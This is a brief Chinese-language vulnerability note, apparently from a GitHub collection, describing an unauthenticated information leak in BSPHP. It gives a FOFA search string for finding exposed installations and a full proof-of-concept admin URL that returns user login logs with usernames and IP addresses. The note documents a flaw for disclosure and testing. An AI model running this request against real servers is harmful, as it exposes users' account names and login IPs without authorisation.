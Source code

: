 # BSPHP-未授权访问-信息泄露漏洞

## 漏洞描述

BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息

## 漏洞影响

> [!NOTE]
>
> BSPHP

## FOFA

> [!NOTE]
>
> "BSPHP"

## 漏洞复现

访问如下URL，泄露用户名与登录IP

```
http://xxx.xxx.xxx.xxx/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0‘
```

![bsphp-1](BSPHP-未授权访问-信息泄露漏洞.assets/16273630368974578.jpg)


